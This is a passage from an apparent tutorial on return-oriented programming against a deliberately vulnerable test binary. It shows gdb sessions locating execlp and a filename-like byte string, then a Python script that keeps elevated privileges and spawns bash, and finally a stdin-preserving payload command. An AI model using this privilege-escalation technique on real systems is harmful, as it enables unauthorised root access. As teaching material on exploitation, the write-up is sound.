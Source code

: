 The general strategy will be to execute a `python` script via `execlp`, which searches the `PATH` environment variable for an executable of the correct name.

## Unix filenames ##

We know how to find the address of `execlp` using `gdb`, but what file do we execute? The trick is to realize that Unix filenames can have (almost) arbitrary characters in them. We then just have to find a string that functions as a valid filename somewhere in memory. Fortunately, those are are all over the text segment of program. In `gdb`, we can get all the information we need:

~~~
:::console
$ gdb -q ./a.out
Reading symbols from /home/ppp/a.out...(no debugging symbols found)...done.
(gdb) bread main
Breakpoint 1 at 0x80483fd
(gdb) run
Starting program: /home/ppp/a.out 

Breakpoint 1, 0x080483fd in main ()
(gdb) print execlp
$1 = {<text variable, no debug info>} 0x5564b6f0 <execlp>
(gdb) x/s main
0x80483fa <main>:	 "U\211\345\203\344\360\350\317\377\377\377\270"
~~~

We will execute the file `U\211\345\203\344\360\350\317\377\377\377\270`. We first create this file in some temporary directory and make sure it is executable[^10] and in our `PATH`. We want a bash shell, so for now the file will simply ensure `bash` will not drop privileges:

[^10]: Note the `$'\211'` syntax to enter escape characters.

~~~
:::console
$ vim $'U\211\345\203\344\360\350\317\377\377\377\270'
$ cat $'U\211\345\203\344\360\350\317\377\377\377\270'
#!/usr/bin/python
import os
os.setresuid(os.geteuid(), os.geteuid(), os.geteuid())
os.execlp("bash", "bash")
$ chmod +x $'U\211\345\203\344\360\350\317\377\377\377\270'
$ export PATH=$(pwd):$PATH
~~~

## Keeping `stdin` open ##

Before we can exploit this, we have to be aware of one last trick. We want to avoid closing `stdin` when we exec our shell. If we just naively piped output to our program through `python`, we would see `bash` execute and then quit immediately. What we do instead is we use a special `bash` sub shell and `cat` to keep `stdin` open[^11]. The following command concatenates the output of the `python` command with standard in, thus keeping it open for `bash`:

[^11]: To see why this is necessary, compare the behavior of `echo ls | bash` to `cat <(echo ls) - | bash`.

~~~
:::console
cat <(python -c 'print "my_payload"') - | ./a.out
~~~


[^1]: [ASLR](https://en.wikipedia.org/wiki/ASLR) is the technique where portions of the program, such as the stack or the heap, are placed at a random location in memory when the program is first run. This causes the address of stack buffers, allocated objects, etc to be randomized between runs of the program and prevents the attacker.
[^2]: [DEP](https://en.wikipedia.org/wiki/Data_Execution_Prevention) is the technique where memory can be either writable or executable, but not both. This prevents an attacker from filling a buffer with shellcode and executing it. While this usually requires hardware support, it is quite commonly used on modern programs. 
[^3]: To make life easier for us, we compile with `gcc -m32 -fno-stack-protector easy_rop.c`. 
[^4]: You'll note that we use print the exploit string in a python subshell.  This is so we can print escape characters and use arbitrary bytes in our payload. We also surround the subshell in double quotes in case the payload had whitespace in it.
[^7]: These can be found in the `libc` library itself: `ldd a.out` tells us that the library can be found at `/lib/i386-linux-gnu/libc.so.6`. We can use `objdump`, `nm`, `strings`, etc. on this library to directly find any information we need. These addresses will all be offset from the base of `libc` in memory and can be used to compute the actual addresses by adding the offset of `libc` in memory.
[^8]: I believe someone even [tried to prove](http://cseweb.ucsd.edu/~hovav/papers/rbss12.html) that ROP is turing complete.   